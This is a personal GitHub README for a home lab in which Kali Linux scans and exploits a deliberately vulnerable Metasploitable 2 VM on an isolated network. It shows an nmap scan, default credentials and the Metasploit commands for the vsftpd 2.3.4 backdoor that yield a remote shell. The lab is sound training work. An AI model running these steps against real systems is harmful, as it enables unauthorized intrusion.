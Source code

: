 # cybersecurity-lab-nmap-metasploit
Hands-on cybersecurity lab using Kali Linux and Metasploitable to scan and exploit vulnerabilities with Nmap and Metasploit.

# 🔐 Cybersecurity Home Lab: Nmap Scan & Exploitation

## 🧰 Tools Used
- VirtualBox
- Kali Linux (Attacker VM)
- Metasploitable 2 (Vulnerable Target VM)
- Nmap (Port scanning & service enumeration)
- Metasploit Framework (Exploitation)

---

## 🛠️ Lab Setup

This lab was built using VirtualBox to simulate a safe, isolated network environment for practicing offensive security techniques.

### 🔧 Network Configuration
Both Kali Linux and Metasploitable 2 are configured to use a **Host-Only Adapter** to ensure full isolation from the internet.

### 🔐 Metasploitable Login

Do:
```markdown
\`\`\`plaintext
Username: msfadmin
Password: msfadmin
\`\`\`

After identifying the IP of the Metasploitable VM using ifconfig, I performed a vulnerability scan using Nmap:

nmap -sS -sV -O 192.168.56.101

✅ Flag Breakdown:
	•	-sS : TCP SYN scan (stealthy and fast)
	•	-sV : Detects service versions
	•	-O  : Tries to determine the operating system

🧾 Sample Output:
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1
23/tcp   open  telnet      Linux telnetd
80/tcp   open  http        Apache httpd 2.2.8
...

💥 Step 2: Exploitation with Metasploit

Identified a vulnerable FTP service running vsftpd 2.3.4. Used Metasploit to exploit it and gain shell access:

msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.56.101
exploit

✅ Result: Opened a remote shell session with the target.

🧠 What I Learned
	•	How to configure and isolate VMs in a virtual network
	•	How to scan and enumerate services using Nmap
	•	How to identify vulnerabilities based on service versions
	•	Basic exploitation using the Metasploit Framework
	•	The importance of safe, offline testing environments

🚀 Future Improvements
	•	Add Wireshark for packet sniffing and traffic analysis
	•	Expand lab with Security Onion or Splunk for detection & logging
	•	Build custom scripts to automate scanning/reporting

🔗 Connect with Me

👨‍💻 Robert Tolbert
🎯 Passionate about cybersecurity, software engineering, and aviation!

